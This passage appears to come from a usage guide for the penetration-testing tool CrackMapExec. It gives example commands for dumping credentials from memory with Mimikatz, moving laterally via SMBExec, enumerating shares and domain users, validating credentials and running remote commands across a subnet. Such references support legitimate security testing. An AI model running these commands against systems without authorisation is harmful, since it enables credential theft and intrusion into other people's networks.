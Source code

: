 ```sh
crackmapexec smb 192.168.1.0/24 -u username -p password --mimikatz
```

- **`--mimikatz`**: Uses Mimikatz to dump credentials from memory.

### Lateral Movement
To move laterally across the network using valid credentials:

```sh
crackmapexec smb 192.168.1.0/24 -u username -p password -d domain --exec-method smbexec
```

- **`--exec-method smbexec`**: Specifies the execution method for lateral movement (in this case, SMBExec).

### Service Enumeration
To enumerate services running on the target systems:

```sh
crackmapexec smb 192.168.1.0/24 -u username -p password --shares
```

- **`--shares`**: Lists shared resources available on the target systems.

### User Enumeration
To enumerate domain users:

```sh
crackmapexec ldap 192.168.1.0/24 -u username -p password --users
```

- **`ldap`**: Specifies LDAP enumeration for domain users.

## Key Features and Options

### Credential Validation
- **Description:** Validates a set of credentials across multiple hosts to identify weak passwords, password reuse, and account configurations.
- **Usage:**
```sh
crackmapexec smb 192.168.1.0/24 -u username -p password
```

### Command Execution
- **Description:** Executes commands and scripts on remote systems using valid credentials for remote code execution.
- **Usage:**
```sh
crackmapexec smb 192.168.1.0/24 -u username -p password -x 'whoami'
```

### Credential Dumping
- **Description:** Dumps credentials from memory and the file system using various techniques, including Mimikatz.
- **Usage:**
```sh
crackmapexec smb 192.168.1.0/24 -u username -p password --mimikatz
```
